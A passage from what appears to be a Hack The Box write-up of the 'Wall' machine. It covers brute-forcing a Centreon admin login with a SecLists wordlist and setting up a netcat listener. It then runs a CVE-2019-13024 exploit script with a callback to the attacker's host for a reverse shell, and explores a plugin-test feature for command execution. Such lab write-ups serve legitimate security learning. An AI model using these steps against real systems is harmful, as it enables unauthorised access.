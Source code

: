 
Taking the `xato-net-10-million-passwords-1000.txt` wordlist from the OWASP SecLists [repo](https://github.com/danielmiessler/SecLists.git)

I eventually get the login admin:password1

```
[+] Retrieving CSRF token to submit the login form
[+] U: admin P: password1 T: 2a1e5c6f3af68a3962a4cbea435cb8ad
[+] Logged In Sucssfully
```

I check it works by logging in:

![im_in.png](/assets/htb_stuff/wall/im_in.png)
 
## Exploit

With the access credentials I set up a listener on port 443 with:

``` bash
sudo nc -nvlp 443
```

and try the exploit:

``` bash
python3 47069.py http://$WALL/centreon admin password1 $ATTACK 443
```

But get nothing back.

I decide to research the vulnerability some more to try and understand what is going on, the write up [here](https://shells.systems/centreon-v19-04-remote-code-execution-cve-2019-13024/) goes into some good detail about how the author worked out the exploit.

In order to better understand the issue I even visited the CVE [page](https://www.cvedetails.com/cve/CVE-2019-13024/) for CVE-2019-13024.

The gist of the exploit is that it trys to inject code into the poller configuration page based at is url: `/main.get.php?p=60901`

After some poking around the system I could see where the poller options were on the menu but could not figure out why the code was not executing.

I began to suspect some form of whitelisting when I noticed the Command option in the menu. I decided to look into this a bit and began to get hopeful when I noticed the option to add a new one.

Taking me to http://10.10.10.157/centreon/main.php?p=60801&o=a&type=2 I examined my options only to discover there was an option to "Test the plugin" for custom command scripts in the form of a blur Play icon.

![command.png](/assets/htb_stuff/wall/command.png)

I couldn't believe my luck, if it worked this looked like an easy way to execute code on the machine. Tying in from my research a number of functions used php shell_exec, popen, system commands. If this plugin leveraged any of these, in theory I could execute code from here. 

I tied the classic exploit PoC command:
